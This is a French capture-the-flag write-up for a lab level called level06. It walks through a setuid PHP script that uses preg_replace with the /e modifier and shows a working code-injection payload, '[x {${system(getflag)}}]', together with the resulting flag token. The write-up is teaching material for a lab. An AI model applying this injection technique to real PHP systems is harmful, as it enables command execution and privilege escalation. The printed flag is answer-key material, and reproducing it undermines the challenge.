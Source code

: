 # level06

```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
$ ./level06 getflag
PHP Warning:  file_get_contents(getflag): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Le binaire level06 exécute le script PHP en passant un paramètre, le script PHP attend un fichier afin de lire son contenu afin de modifier son contenu puis de l’afficher.

```php
#!/usr/bin/php
<?php
function y($m) {
    // Remplace tous les points par " x " et tous les "@" par " y"
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    // Lit le contenu du fichier spécifié par $y
    $a = file_get_contents($y);

    // Remplace toutes les occurrences de "[x ...]" par le résultat de la fonction y(...)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

    // Remplace les crochets par des parenthèses
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);

    return $a;
}

// Lit le premier argument comme fichier et applique les transformations
$r = x($argv[1], $argv[2]);
print $r;
?>
```

On va donc créer un fichier afin de lui exécuter la commande `getflag` grâce a cette **Vulnérabilité `preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`**  si le regex match alors `preg_replace`  va exécuter la commande.

```php
$ nano /tmp/exploit.txt
[x {${system(getflag)}}]

$ ./level06 /tmp/exploit.txt
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

flag06: wiok45aaoguiboiki2tuin6ub

